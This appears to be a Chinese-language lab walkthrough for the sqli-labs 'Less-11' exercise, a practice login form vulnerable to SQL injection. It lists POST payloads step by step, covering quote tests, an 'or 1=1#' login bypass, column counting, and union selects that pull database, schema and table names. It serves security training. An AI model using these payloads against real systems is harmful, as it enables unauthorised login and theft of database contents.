

# Less-11_01
以下均为POST内容：
1. POST内容： uname=‘ & passwd=1&submit=Submit 返回的结果显示你存在sql语法错误，证明存在注入漏洞。或这是直接在username中填写’，password中随便写判断一下是否存在注入漏洞。
2. 直接在username中填写 admin‘ or 1=1#（此处不能使用--+，因为--+主要使用在url中，#是适用的）即： uname=a’ or 1=1 #& passwd=a &submit=Submit此时登录成功，可以验证存在注入漏洞。
3.  此时在password位置进行验证：uname=a&passwd=a‘ or 1=1# &submit=Submit，登录成功，开始构造！
4. uname=a‘ order by 3#&passwd=a &submit=Submit或者是使用 uname=a&passwd=a’ order by 2# &submit=Submit同样可以进行判断，最后得出一共有两列。
5. uname=a&passwd=a‘ union select database(),2  # &submit=Submit查询到当前的数据库为security，或者是使用：uname=a’ union select database(),2  # &passwd=a&submit=Submit均可以查询到当前的数据库，当然也可以查询其它信息。
6. uname=a‘ union select 1,(select schema_name from information_schema.schemata limit 1,1)  # &passwd=a&submit=Submit 可以查询到当前的第一个数据库，或者是使用命令：uname=a’ union select 1,(select group_concat(schema_name) from information_schema.schemata)  # &passwd=a&submit=Submit 可以得到所有的数据库。
7. uname=a‘ union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=0x7365637572697479)  # &passwd=a&submit=Submit 可以得到security数据库中的所有的表信息